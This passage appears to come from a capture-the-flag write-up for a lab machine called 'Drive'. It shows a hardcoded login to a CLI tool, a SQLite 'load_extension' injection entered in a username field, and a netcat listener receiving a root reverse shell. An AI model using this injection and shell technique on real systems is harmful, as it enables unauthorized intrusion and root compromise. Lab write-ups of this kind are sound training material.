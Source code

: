 Finally, running the payload:
```
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))--
Activating account for user '"+load_extension(char(46,47,97))--'...
```
Meanwhile on my nc listener:
```
┌──(kali㉿kali)-[~/Documents/Drive/sqlite_ex/sqlite-execute-module]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.235] 55348
id
uid=0(root) gid=0(root) groups=0(root),1003(tom)
```
With this, we have full root authority.
